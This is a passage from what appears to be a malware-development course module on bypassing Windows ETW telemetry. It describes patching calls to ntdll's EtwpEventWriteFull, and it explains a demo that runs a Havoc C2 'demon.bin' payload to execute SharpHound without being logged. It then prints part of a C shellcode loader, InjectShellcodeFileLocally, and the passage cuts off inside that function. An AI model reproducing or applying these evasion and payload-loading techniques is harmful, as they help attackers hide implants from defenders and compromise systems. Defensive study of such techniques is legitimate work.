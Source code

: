 ```c
	}
	
	return TRUE;
}
```

### Demo

Patching the `call !ntdll.EtwpEventWriteFull` instruction from `EtwEventWrite`.

![](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-548779145-e868a8a9-b001-4a83-8631-bb50a78aac3b.png)

Patching the `call !ntdll.EtwpEventWriteFull` instruction from `EtwEventWriteFull`.

![](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-648779173-6050d571-b33a-4f57-a6a7-22699a9148db.png)

Patching the start of `EtwpEventWriteFull`.

![](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-748779219-bd0023c1-5cb9-450a-8272-75deda217081.png)![](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-848779289-5e1225f7-6043-4b2d-a457-983aaf79e752.png)

### Video Demo

Like the previous module, the video demo will again show the result of running this module's ETW evasion implementation against the `DotNetEtwConsumer` tool. The implementation uses `InjectShellcodeFileLocally` which will read and execute `demon.bin` in the local process memory.

The `demon.bin` file is a payload file generated using the Havoc C&C framework. Upon execution, it will open a session that will be used to execute a .NET assembly. The .NET assembly's execution will either be logged by the `DotNetEtwConsumer` tool, highlighting the technique's failure or success in bypassing ETW.

The .NET assembly executed in the demo is [SharpHound](https://github.com/BloodHoundAD/SharpHound) which is an open-source tool used for discovering misconfigurations in Active Directory.

`InjectShellcodeFileLocally` is shown below and requires one argument, `wsShellFileName`, which is the payload file to read (`demo.bin`).

```c

BOOL InjectShellcodeFileLocally(IN LPCWSTR wsShellFileName) {

	HANDLE	hFile					= INVALID_HANDLE_VALUE;
	DWORD	dwBufferSize			= NULL,
			dwNumberOfBytesRead		= NULL,
			dwOldProtection			= NULL;
	PBYTE	pBufferData				= NULL;

	BOOL	bResults				= FALSE;

	if ((hFile = CreateFileW(wsShellFileName, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL)) == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	if ((dwBufferSize = GetFileSize(hFile, NULL)) == INVALID_FILE_SIZE) {
		printf("[!] GetFileSize Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	if ((pBufferData = VirtualAlloc(NULL, dwBufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) == NULL) {
		printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

```